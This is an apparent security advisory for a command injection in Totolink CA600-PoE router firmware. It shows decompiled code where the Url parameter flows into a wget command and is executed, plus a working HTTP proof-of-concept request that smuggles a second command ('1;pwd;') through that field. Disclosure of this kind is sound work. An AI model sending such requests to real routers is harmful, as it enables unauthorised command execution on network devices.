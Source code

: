 ## Totolink CA600-PoE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA600-PoE
* Version: V5.3c.6665_B20180820

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/1da7db5e97165fe93f8a139889875bca.zip

### Vulnerability details

Totolink CA600-PoE V5.3c.6665_B20180820 was found to contain a command injection vulnerability in the `msg_process` function via the `Url` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

```
 1 int __fastcall msg_process(int a1, int a2, int a3, int a4)
 2 {
 3 ……
 4 v7 = cJSON_Parse(a1);
 5 Var = (const char *)websGetVar(v7, "Action", "");
 6 v9 = (const char *)websGetVar(v7, "APMAC", "");
 7 ……
 8 if ( strcmp(Var, "Scan") )
 9 {
 10 ……
 11 v18 = 1;
 12 if ( !strcmp(DEVMAC, v9) )
 13 {
 14 v18 = 0;
 15 ……
 16 }
 17 if ( !v18 )
 18 {
 19 ……
 20 if ( !strcmp(Var, "RemoteUpgradeFW") )
 21 {
 22 v24 = (const char *)websGetVar(v7, "Port", "");
 23 v25 = (const char *)websGetVar(v7, "Url", "");     //Injection 
 24 seconds = websGetVar(v7, "magicid", "");
 25 v26 = (const char *)websGetVar(v7, "ProxyEnabled", "");
 26 if ( !strcmp(v26, "1") )
 27 {
 28 ……
 29 v64 = strrchr(v25, '/');
 30 v31 = inet_ntoa(*(struct in_addr *)(a4 + 4));
 31 ObjectItem = v56;
 32 sprintf(v56, "wget ‐O /tmp/fwdir/%s http://%s:%s%s", v64, v31, v24, v25);
 33 v23 = 0;
 34     if ( !CsteSystem(ObjectItem, 0) )    //Execution
 35 ……
 36 	}
 37   }
 38 }
```

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 152
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"msg_process",
    "Action":"RemoteUpgradeFW",
    "ProxyEnabled": 1,
    "Url": "1;pwd;"
}
```

